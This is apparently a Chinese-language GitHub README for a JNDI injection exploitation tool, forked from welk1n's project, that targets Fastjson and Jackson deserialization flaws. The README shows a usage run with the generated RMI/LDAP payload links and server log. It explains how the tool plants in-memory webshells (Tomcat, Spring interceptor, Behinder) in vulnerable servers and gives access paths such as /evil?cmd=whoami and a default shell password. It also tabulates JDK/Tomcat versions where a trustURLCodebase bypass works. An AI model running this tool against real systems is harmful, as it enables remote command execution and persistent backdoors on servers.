 ## 介绍

JNDI注入利用工具，生成JNDI链接并启动后端相关服务，可用于Fastjson、Jackson等相关漏洞的验证。

最开始做项目的初衷是因为，遇到一些场景只能用RMI注入，无法使用LDAP注入，但是找了一段的时间之后发现Github中并没有很合心意的RMI注入工具，于是原本想自己做一个RMI注入内存马的工具，参考了一下welk1n佬的项目，结果发现佬写的精妙，可以改动的地方很少了已经，索性直接fork大佬的项目，添加工具。
原仓库地址：https://github.com/welk1n/JNDI-Injection-Exploit

冰蝎内存🐴默认密码:elysium

## 更新功能

### 内存马注入

直接运行jar包，可以看到添加了Tomcat Memshell、Behinder两种内存马（还在更新中）

```shell
$ java -jar JNDI-Injection-Memshell-1.0-SNAPSHOT-all.jar          
[ADDRESS] >> 127.0.0.1
[COMMAND] >> open -a Calculator
----------------------------JNDI Links----------------------------
Target environment(Springboot Interceptor Behinder Memshell):
rmi://127.0.0.1:1099/hcs9gf
ldap://127.0.0.1:1389/hcs9gf
Target environment(Behinder Filter Memshell):
rmi://127.0.0.1:1099/047ucq
ldap://127.0.0.1:1389/047ucq
Target environment(Build in JDK bypass trustURLCodebase is false by Groovy):
rmi://127.0.0.1:1099/gfklse
Target environment(Springboot Interceptor Memshell):
rmi://127.0.0.1:1099/gupdzc
ldap://127.0.0.1:1389/gupdzc
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://127.0.0.1:1099/n5tnhz
ldap://127.0.0.1:1389/n5tnhz
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://127.0.0.1:1099/fbnegt
ldap://127.0.0.1:1389/fbnegt
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://127.0.0.1:1099/mpqyi4
Target environment(Behinder Servlet Memshell):
rmi://127.0.0.1:1099/kmfzhn
ldap://127.0.0.1:1389/kmfzhn
Target environment(Tomcat Servlet Memshell):
rmi://127.0.0.1:1099/vlnzlt
ldap://127.0.0.1:1389/vlnzlt
Target environment(Tomcat Filter Memshell):
rmi://127.0.0.1:1099/21jrzn
ldap://127.0.0.1:1389/21jrzn

----------------------------Server Log----------------------------
2023-09-01 15:28:37 [JETTYSERVER]>> Listening on 0.0.0.0:8180
2023-09-01 15:28:37 [RMISERVER]  >> Listening on 0.0.0.0:1099
2023-09-01 15:28:37 [LDAPSERVER] >> Listening on 0.0.0.0:1389
```

- Tomcat Servlet Memshell

  - 命令执行Servlet内存马：路径/shell，参数cmd

    ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/1.jpg)

- Behinder Servlet Memshell

  - 冰蝎Servlet内存马：路径/shell，密码:elysium

    ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/2.jpg)

- Springboot interceptor Memshell
  - springboot的拦截器内存马，在request header中的command为入参执行命令

    ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/3.jpg)
	
- Springboot interceptor Behinder Memshell:
  
	- springboot拦截器冰蝎内存马，在request header中的shell参数中跟上Behinder，输入密码即可连接
	
	![ ](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/4.jpg)

- Tomcat Filter Memshell:
  - Tomcat filter内存马，在访问路径/evil?cmd=whoami，可以执行命令
    ![ ](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/5.jpg)

- Behinder Filter Memshell:
  - Behinder filter内存马，访问路径/behinderFilter,并在request header中的shell参数中跟上Behinder，输入密码即可连接
    ![ ](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/6.jpg)
  
- Bypass JDK高版本trustURLCodebase,by Groovy的方式

  - 前提条件，Tomcat版本小于9.0.63,并且存在Groovy依赖在classpath中
## Tips:

Q:为什么有了Servlet/Controller内存马还是需要Interceptor内存马呢？

A:如果服务端存在拦截器，指定如果未登录的状态除了/login接口其他都不执行，访问就会跳转回/login接口的话。这个controller的内存马不就访问不到了吗？访问不到就形同虚设了。所以controller的内存马并不能作为一种通用的内存马进行注入，于是就需要注入interceptor内存马了。



- 实测了一下通过EL表达式来bypassJDK的JNDI注入的`trustURLCodebase`的限制的方法测试版本

| JDK版本  | Springboot版本 | 内置的Tomcat版本     | 能否执行命令 |
| -------- | -------------- | -------------------- | ------------ |
| JDK8u191 | 2.5.13         | Apache Tomcat/9.0.62 | ✅            |
| JDK8u191 | 2.5.14         | Apache Tomcat/9.0.63 | ❌            |



## 待实现

- 添加~~filter~~、~~Interceptor~~类型的内存马。
- ~~融合groovy的bypass RCE到项目中。~~
- 更新weblogic以及其他中间件的内存马注入环境
- 增加注入哥斯拉内存马的模块
- 加入websocket内存马
- 增加LDAP反序列化利用场景，最好能有利用链探测哈哈

喜欢的朋友可以帮忙点一个Star。 :）

## 关于我

 ![公众号](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/7.jpg)

## Star History

[![Star History Chart](https://api.star-history.com/svg?repos=MUYU212/JNDI-Injection-Memshell&type=Date)](https://star-history.com/#MUYU212/JNDI-Injection-Memshell&Date)
